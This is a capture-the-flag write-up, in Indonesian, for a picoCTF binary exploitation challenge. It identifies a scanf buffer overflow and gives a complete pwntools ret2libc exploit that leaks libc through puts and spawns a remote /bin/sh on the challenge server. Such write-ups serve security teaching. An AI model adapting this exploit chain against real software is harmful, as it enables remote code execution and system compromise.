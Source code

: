 # Here's a LIBC 
### Category: Binary Exploitation
### Level : Hard

**Deskripsi:**
>I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 62289

## Analisis
Pertama kita analisis binarynya terlebih dahulu

![Preview](image/1.png)

bisa di lihat bahwa ini binary 64 bit Executable

setelah itu kita coba untuk menganalisis apa sebenarnya yang terjadi pada binary ini

![Preview](image/2.png)

setelah di analisis lebih lanjut di sana terdapat sebuah bug Buffer Overflow
lihat pada variabel local_88 disana terdapat buffer 112 dan fungsi scanf yang tidak membatasi buffer yang di masukan yang mengakibatkan buffer overflow

![Preview](image/3.png)

karena binarynya tidak bisa di exec (gatau kenapa) jadi kita lihat dari servernya saja
dikarenakan chall ini kita sudah tau apa bug nya jadi kita eksekusi saja menggunakan tehnik ret2libc
https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/ret2libc

singkatnya ret2libc seperti ini
leak puts -> leak libc -> spawn bin/sh

berikut kode exploit nya
```
from pwn import *

context.binary = elf = ELF("./here")
context.terminal = ['xfce4-terminal', '-e']
context.log_level = 'error'
libc = ELF("libc.so.6")
if len(sys.argv) > 1 and sys.argv[1] == 'gdb':
        p = gdb.debug([elf.path],'''

            continue
        ''')
else:
    #p = process()
    p = remote('mercury.picoctf.net',62289)

offset = 136
pop_rdi = 0x0000000000400913
ret = 0x000000000040052e

#leak puts
payload = flat({offset:[pop_rdi,elf.got.puts,elf.plt.puts,elf.sym.main]})
p.sendline(payload)
p.recvline()
p.recvline()
a = p.recvline().strip()
leak = u64(a.ljust(8,b'\x00'))
print(f"leak puts = {hex(leak)}")

#leak libc address
libc.address = leak - libc.symbols['puts']
print(f"libc address = {hex(libc.address)}")

#system('/bin/sh')
rop = ROP(libc)
rop.raw(ret)
rop.call('system',[next(libc.search(b'/bin/sh\x00'))])
payload = flat({offset:rop.chain()})
p.sendline(payload)

p.interactive()
```

dan ketika di run akan seperti ini
![Preview](image/4.png)
